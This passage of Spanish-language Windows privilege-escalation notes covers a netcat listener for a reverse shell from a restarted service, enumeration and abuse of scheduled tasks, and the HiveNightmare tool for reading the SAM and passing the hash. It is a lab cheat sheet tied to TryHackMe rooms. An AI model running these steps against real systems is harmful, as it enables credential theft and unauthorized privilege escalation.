 A la escucha en la maquina Kali:

```bash
nc -lvnp 4545
```

paramos y levantamos nuevamente el servicio:

```bash
net stop service

net start service
```

PRACTICAR: [https://tryhackme.com/room/steelmountain](https://tryhackme.com/room/steelmountain)

## Tareas Programadas

Se puede utilizar de la siguiente manera para ver todas las tareas existentes:

```bash
schtasks /query /fo LIST /v
```

tambien lo podemos hacer con powershell:

```bash
Get-ScheduledTask | ft TaskName,TaskPath,State
```

podemos excluir las tareas predeterminadas de windows:

```bash
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

si tenemos permisos en el path de alguna tarea programada, podemos aprovecharnos de eso, verificar permisos en el path:

```bash
accesschk.exe /accepteula -quvw <usuario> <Path>
```

si podemos modificar lo que ejecute la tarea programada o crear algo.

[https://steflan-security.com/windows-privilege-escalation-scheduled-tasks/](https://steflan-security.com/windows-privilege-escalation-scheduled-tasks/)

## ROBAR HASH CON SERIOUS SAM

Usaremos el repositorio de [HiveNightmare](https://github.com/GossiTheDog/HiveNightmare) donde partiendo de un usuario sin privilegios podremos leer la SAM y hacer un pass the hash.

Nos descargamos el .exe y lo pasamos a la maquina windows 10 o 11. [HiveNightmare.exe](https://github.com/GossiTheDog/HiveNightmare/raw/master/Release/HiveNightmare.exe)

lo ejecutamos:

```bash
HiveNightmare.exe
```

